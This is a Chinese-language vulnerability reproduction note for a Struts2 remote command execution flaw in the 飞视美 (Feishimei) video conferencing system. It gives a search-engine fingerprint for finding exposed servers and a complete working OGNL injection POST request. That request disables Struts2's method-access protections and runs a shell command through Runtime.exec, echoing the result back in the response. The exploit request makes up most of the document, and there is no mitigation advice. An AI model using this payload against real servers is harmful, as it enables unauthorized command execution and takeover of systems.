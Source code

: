 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>飞视美 视频会议系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="飞视美-视频会议系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630910934893-ef391d6e-93b4-4596-b185-93727d3b5e21.png)

存在漏洞的路径为

```python
/confinfoaction!showallConfinfos.action
```

发送请求包

```python
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![img](../../../.vuepress/public/img/1630911232289-4b99e8bb-61d9-4f5a-9829-4c4ba96075ef.png)
